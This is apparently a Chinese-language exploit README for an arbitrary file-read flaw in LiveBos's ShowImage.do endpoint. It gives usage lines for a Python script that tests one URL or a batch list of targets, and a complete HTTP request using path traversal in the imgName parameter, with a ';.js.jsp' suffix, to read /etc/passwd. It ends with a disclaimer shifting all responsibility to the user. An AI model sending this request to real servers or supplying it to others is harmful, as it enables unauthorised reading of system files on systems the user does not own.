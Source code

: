 # LiveBos ShowImage.do文件imgName文件读取

LiveBos ShowImage.do文件 imgName存在任意文件读取漏洞。


## 工具利用

python3 LiveBos_fileread.py -u http://127.0.0.1:1111 单个url测试

python3 LiveBos_fileread.py -f url.txt 批量检测

![exp](./poc.jpg)

读取/etc/passwd文件内容
```
GET /feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.1566.24 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```
![exp](./exp.jpg)


## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
